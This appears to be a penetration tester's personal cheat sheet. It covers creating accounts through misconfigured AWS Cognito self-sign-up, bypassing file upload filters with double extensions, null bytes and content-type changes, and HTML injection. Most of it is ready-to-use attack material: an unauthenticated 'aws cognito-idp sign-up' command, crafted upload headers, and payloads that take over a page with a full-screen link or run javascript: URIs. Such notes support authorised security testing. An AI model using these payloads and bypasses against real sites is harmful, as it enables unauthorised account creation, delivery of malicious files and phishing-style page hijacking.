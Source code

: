 ### cognito create new user
- https://security.theodo.com/en/blog/aws-cognito-pentest
  - the self-sign up shouldn't be misconfigured and the --no-sign-request should not be allowed either 
- if ever given aws credentials like these. 
  ```js 
    USER_POOL_ID: 'us-east-1_[redacted]',
    APP_CLIENT_ID: '[redacted]',
    IDENTITY_POOL_ID: 'us-east-1:[redacted]',
    IDP: '[org-redacted]-idm-saml-impl',

    //note this doesn't use aws-configure settings because all your commands override those
    //then use: 
    aws cognito-idp sign-up --client-id [redacted app-client-id] --username pentest12345@yopmail.com --password Password1234! --region us-east-1 --no-sign-request --user-attributes '[ {"Name":"email", "Value": "pentest12345@yopmail.com"}]'
  ```
  

## self note for file uploads
- you can do type stacking: .html.pdf
- null byte to dodge parser or WAF: .hta%00.pdf | ..pdf%00.hta
- Then changing the content type from pdf to html can sometimes cause it to open on the system if it is stored somewhere.
  ```js
  Content-Disposition: form-data; name="files[attachment]"; filename="tpen-js-pdf.html.pdf"
  Content-Type: application/pdf - > application/html
  ```
- file upload bypasses
  - when you see html form with `input accept=` change it to `accept = image/*` to bypass front end
  ```js
  //sometimes content type doesn't matter
  filename = 'sample.hta";.csv'
  Content-Type: application/vnd.ms-excel
  ```


## HTML Injection
- big payload list: https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/Html-Injection-Payloads.txt 
```js

- <a/href="http:/bing.com"/style="height:100vh;width:100vw;position:fixed;top:-25px;left:-525px;">a
  - this is as short as I can have it to take over a whole page as a link
  - always also test for javascript: `<a/href="javascript:confirm(document.domain)"/style="height:100vh;width:100vw;position:fixed;top:-25px;left:-525px;">a`
  - also <iframe src="[oastify]">
  - <a href="http:/bing.com" style="height:100vh;width:100vw;position:fixed;top:-25px;left:-525px;">abc</a>
    - <a href="https://bing.com" style="background-color:green">abc</a>
  - <h1 style="background-color:red;background-image:url('javascript:confirm`1`')">B2<h1>
- <a href="http:/bing.com" style="height:30vh;width:30vw;position:fixed;top:-25px;left:-525px;background-color:green">abc</a>
<a href="http://bing.com/" style="height: 40vh; width: 40vw; border: 10px solid green;top:0px;left:0px;z-index:100;position:fixed;">abc</a>

<a href="javascript:prompt(1)" style="height: 40vh; width: 40vw; border: 10px solid green;top:0px;left:0px;position:fixed;z-index:100;">abc</a>
<link rel="icon" href="/favicon.ico">
<link rel="icon" href="javascript:confirm(1)">

```
